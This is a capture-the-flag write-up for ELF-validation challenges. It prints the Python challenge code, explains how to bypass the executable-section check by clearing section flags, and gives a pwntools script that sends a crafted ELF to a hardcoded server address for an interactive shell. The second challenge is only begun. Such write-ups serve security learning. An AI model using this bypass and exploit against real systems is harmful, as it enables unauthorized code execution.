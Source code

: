 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

First, `e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. 